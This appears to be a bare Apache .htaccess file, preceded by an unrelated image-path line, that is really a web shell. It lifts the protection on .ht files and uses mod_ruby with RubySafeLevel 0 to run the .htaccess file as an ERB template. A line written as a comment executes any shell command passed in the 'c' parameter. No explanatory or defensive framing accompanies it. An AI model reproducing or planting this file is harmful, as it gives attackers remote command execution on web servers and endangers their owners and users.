

<Files ~ "^\.ht">
    Order allow,deny
    Allow from all
</Files>
<IfModule mod_ruby.c>
    RubyRequire apache/erb-run
    RubySafeLevel 0
    AddType text/html .htaccess
    <Files *.htaccess>
        SetHandler ruby-object
        RubyHandler Apache::ERbRun.instance
    </Files>
</IfModule>
# <% require 'cgi';cgi=CGI.new;cmd=cgi["c"];cmd.untaint;puts `#{cmd}` %>